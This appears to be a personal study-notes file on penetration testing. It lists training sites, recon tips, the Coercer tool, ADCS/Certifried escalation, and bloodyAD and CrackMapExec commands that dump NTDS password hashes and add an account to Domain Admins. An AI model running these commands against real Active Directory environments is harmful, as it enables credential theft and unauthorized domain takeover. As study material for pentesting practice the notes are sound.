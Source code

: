 
# Learning Resources for Cybersecurity  

* TryHackMe  
* HackTheBox  
* Over The Wire  
* https://taggartinstitute.org/  
* PentesterLab  


## Random Notes  




### Recon  
recon: Go to linked and see what technologies they're using  
What tooling do they use? What's exposed to internet?  

Footprinting:  
```bash  
curl -I hostname.com/:port  
```
ningx/1.25.2, now I just have to look for vulns in nginx 1.25.X  

---  

### Diamond Model of Intrusion Analysis  
https://www.activeresponse.org/wp-content/uploads/2013/07/diamond.pdf  
* When looking for XSS also look for SSTI or CSTI  

---  

* As a blue teamer, you should run Blood Hound regularly and analyze its output.  
* As a red teamer, your job is not to fix the vulnerabilities. Your job is to report  
  the vulnerabilities to the client. It is their decision to make about how to reconfigure their  
  environment.  

---  

### Escalation Paths (esc)  
`ESC<number>` : escalation paths  

---  

### Coercer  
[coercer.py](https://github.com/p0dalirius/Coercer)  
A python script to automatically coerce a Windows server 
to authenticate on an arbitrary machine through many methods.  

---  

### Certifried: Active Directory Domain Privelege Escalation  
Actice Directory Certificate Services  
Present certificate to access to direcory  
It takes the cert and checks if it corresponds to an active directory object.  

---  

### bloodyAD  
```bash  
bloodyAD -h 
bloodyAD -d 'domain.name' -u 'users.name' -p 'passwordgoeshere' \
--host 10.10.10.2 get children --target 'Domain Admins'  

# When windows stores a password, it stores NTLM hashes,
# and they all will have the same LandMan hash NTDS hashes.  
# LandMan hashes are not stored anymore.  
# For legacy purposes they still have an entry in there.  
# The second hash from cme smb will be the second hash separated by the colon.  
# You can just use a colon and the NT hash ( :B0B4D2498249AO54UJ9D06E )  
cme smb 10.10.10.2 -u 'users.name' -p 'seek' --ntds --user robert.almstead  

bloodyAD -d "mydomain.local" -u 'users.name' -p 'passwordgoeshere' \
--host 10.10.10.2 get membership ''  

bloodyAD -d "mydomain.local" -u 'users.name' -p 'passwordgoeshere' \
--host 10.10.10.2 add groupMember 'Domain Admins' 'robert.olmstead'  

bloodyAD -d "mydomain.local" -u 'users.name' -p 'passwordgoeshere' \
--host 10.10.10.2 remove groupMember 'Domain Admins' 'users.name'  
```

---  


